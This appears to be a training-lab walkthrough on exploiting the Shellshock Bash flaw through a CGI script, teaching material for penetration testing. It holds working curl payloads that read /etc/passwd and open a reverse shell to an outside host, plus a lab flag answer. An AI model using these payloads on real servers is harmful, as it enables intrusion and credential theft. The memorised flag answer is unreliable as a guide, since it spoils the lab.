

# Attacking Common Gateway Interface (CGI) Applications - Shellshock
A [Common Gateway Interface (CGI)](https://www.w3.org/CGI/) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application. CGI scripts and programs are kept in the `/CGI-bin` directory on a web server and can be written in C, C++, Java, PERL, etc.



## Shellshock via CGI
The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable. 

```shellsession
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

## Hands-on Example
### Enumeration - Gobuster
We can hunt for CGI scripts using a tool such as `Gobuster`. Here we find one, `access.cgi`.

```shellsession
$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```

### Confirming the vulnerability

```shellsession
$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```

### Exploitation to Reverse Shell Access

```shellsession
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi

```

## Questions
1. Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server. **Answer: Sh3ll_Sh0cK_123**